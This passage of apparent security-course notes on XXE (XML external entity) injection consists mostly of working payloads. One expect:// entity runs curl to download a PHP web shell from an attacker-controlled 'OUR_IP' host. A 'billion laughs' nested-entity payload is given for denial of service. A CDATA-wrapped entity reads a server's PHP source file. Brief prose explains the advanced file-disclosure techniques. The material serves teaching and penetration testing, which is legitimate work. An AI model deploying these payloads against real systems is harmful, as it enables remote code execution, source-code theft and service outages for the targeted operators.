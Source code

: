 ```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">zxzAZX
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

## Other XXE Attacks

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

# Advanced File Disclosure
Not all XXE vulnerabilities may be straightforward to exploit, as we have seen in the previous section. Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors.

## Advanced Exfiltration with CDATA


```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
